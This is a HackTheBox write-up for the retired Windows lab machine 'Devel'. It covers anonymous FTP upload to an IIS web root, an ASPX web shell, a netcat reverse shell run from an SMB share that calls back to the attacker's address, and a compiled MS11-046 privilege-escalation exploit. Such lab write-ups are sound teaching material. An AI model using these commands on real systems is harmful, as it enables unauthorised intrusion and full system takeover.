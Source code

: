 ```yaml
---
layout: default
title: HackTheBox - Devel Writeup
permalink: /htb/devel
---
```


# Devel

> **Name:** Devel
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Devel](https://www.hackthebox.eu/home/machines/profile/3) was released on 15 Mar 2017 and is one of the first boxes released on the platform. It is one of the easier Windows boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding in betwteen work engagements. As it was so simple my notes consisted of the name and IP address and nothing else, so I've had to fully go back and re-do the box to make this write-up. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.5 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/devel/scan-results.png)


## Enumeration

Looking at the results from the Nmap scan a few things should stand out to you. The ftp service allows anonymous login, and the Nmap scripts that were run have given a directory listing with the following:

* aspnet_client
* iisstart.htm
* welcome.png

These look like the default files you would find in the root of a webserver on Windows, this is backed up by Nmap identifying IIS 7.5 running on port 80. The version of IIS should also stand out, this information can be used to give a good idea of which operating system is in use. With IIS 7.5 being the default on Server 2008R2, and as an additional feature you can turn on in Windows 7. 

The next step is to confirm that it is possible to upload a file via anonymous ftp access, and retrieve it via the web server. This will confirm the suspicions about the ftp giving us access to the web server root directory. We can quickly make a test file with the following command:

``` echo "Tiro's Super Secret Test" > Tiro.txt ```

All that command does is echo the text of your choice into a file of your choice, and if the file doesn't exit it will create it. Next up, is to connect to the ftp server and upload the file. 

![FTP Upload]({{site.url}}/assets/devel/ftp-upload.png)

The process shown above began by using the following command to connect to the ftp server:

* ``` ftp 10.10.10.5 ```
* When prompted for a username enter ``` anonymous ```
* When prompted for password put whatever you want
* Once ``` ftp > ``` appears you can upload your file with ``` put <filename> ```
* Using ``` ls ``` after the upload completes gives you confirmation that it is there

Now it is possible to browse to ``` http://10.10.10.5/Tiro.txt ``` and check if the file is there.

![Test Upload]({{site.url}}/assets/devel/test-text.png)

Whoop! It works, so what could possibly go wrong with allowing someone to upload files to the root directory of a web server? 


## Command Execution

A quick check of ``` webshells ``` on Kali gives a list of types of webshells available and changes that to your current directory.

![Web Shells]({{site.url}}/assets/devel/web-shells.png)

Now remember at the beginning when Nmap highlighted that the web server was IIS 7.5. Well that piece of information is now pretty useful as it gives an understanding on what languages the server is likely to understand and execute. As it's Windows and IIS picking an aspx webshell is a good way forward. Kali has one available in the aspx directory that can quickly be copied to your working directory ready to be uploaded using the ftp client. 

Once uploaded it is possible to browse to ``` http://10.10.10.5/cmdasp.aspx ``` to access it. This will give a very simple webpage with a text box for user input, and an execute button. 

![Empty Web Shell]({{site.url}}/assets/devel/blank-webshell.png)

How this works, is that whatever the user puts into the ``` command ``` field is taken and passed as an argument to ``` cmd.exe /c ``` when the execute button is pressed. The output is then displayed to screen, as shown with ``` whoami ``` in this example.

![Whoami]({{site.url}}/assets/devel/whoami.png)


## Get a Shell

Now that command execution is confirmed the next step is to look at a way of getting a full shell on the box. There are a few ways you can do this, like uploading a msfvenom payload and executing it, or running a powershell one-liner (a really long one liner). But for this one I am going to use a smbserver to host netcat and execute a reverse shell command. 

The smbserver is setup using the impacket-smbserver script with the following command:

``` impacket-smbserver -smb2support <share name> <directory to share> ```

Just make sure that nc.exe is in the directory you share! You can find where it is with ``` locate nc.exe ``` and then copy it to your working directory. Then run the command to setup your smb server. 

![Share Setup]({{site.url}}/assets/devel/setup-share.png)

Once it is setup a listener is setup using netcat:

``` nc -nlvp 443 ```

Then the netcat reverse shell command is run. 

``` \\10.10.14.33\tiro\nc.exe -e cmd.exe 10.10.14.33 443 ```

This looks a bit different to usual, but only because it is passing the network share location of nc.exe. The incoming request to the smb server should be seen in the terminal output:

![Accessing Share]({{site.url}}/assets/devel/accessing-share.png)

The listener will then catch the incoming connection and give a command shell. 

![Shell]({{site.url}}/assets/devel/shell-catching.png)


## Privilege Escalation

As we are a low privileged user it is a good idea to do some more enumeration to find potential methods of escalating privileges. Whilst I was preparing for my OSCP I found two good blog posts that I were very useful for Windows privilege escalation, and gave me methods to solve pretty much every Windows box in the labs:
* [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/16.html)
* [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

There are also multiple scripts out there that can automate this process and speed up spotting the path to take, but I recommend taking some time to follow through those blogs and checking all the things they mention. It can give you a good idea of what is normal, what isn't normal and will help to spot those unusual configurations that you can abuse. 

The first command that both blogs suggest is ``` systeminfo ``` as this will give a lot of information about the target such as the patching level. The output from this command is shown below, and the most noticeable thing is that no hotfixes have been applied to it!

![Systeminfo]({{site.url}}/assets/devel/system-info.png)

A very simple google search for the terms privesc and the OS version brings some promising results. 

![Search Results]({{site.url}}/assets/devel/ms11-046.png)

The top result is also in exploitdb, so it is already available on Kali via searchsploit. The code is also well commented and explains exactly how to compile it. However, you may have to install mingw-64 to be able to compile it. Once installed it is compiled with this command:

``` i686-w64-mingw32-gcc 40564.c -o tiro.exe -lws2_32 ```

This is the same command that is detailed in the comments of the programme. The ```40564.c file``` is a straight copy from exploitdb and didn't require any modifications. Once it is compiled it can be placed into the directory that the smb server is running and it can be executed to give that lovely system shell. 

![Yay System]({{site.url}})/assets/devel/system.png)

A fun box that is pretty simple in each step and only needs basic enumeration to find the way forward. 

